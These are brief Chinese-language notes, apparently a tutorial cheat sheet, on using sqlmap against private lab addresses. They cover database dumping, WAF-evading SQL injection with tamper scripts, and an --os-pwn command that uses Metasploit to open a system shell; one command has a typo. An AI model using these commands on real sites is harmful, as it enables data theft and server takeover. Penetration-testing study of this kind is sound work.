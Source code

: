 # 数据库导出

--dump的使用

# WAF绕过注入

注入点：http://192.168.159.1/news.php?id=1
sqlmap -u http://192.168.159.1/news.php?id=1 -v 3 --dbs --batch --tamper "space2morehash.py"
space2hash.py base64encode.py charencode.py

# 配合msf使用

sqlmap =u "http://192.168.2.129/article.php?id=5" --os-pwn --msf-th /usr/share/metasploit-framework/


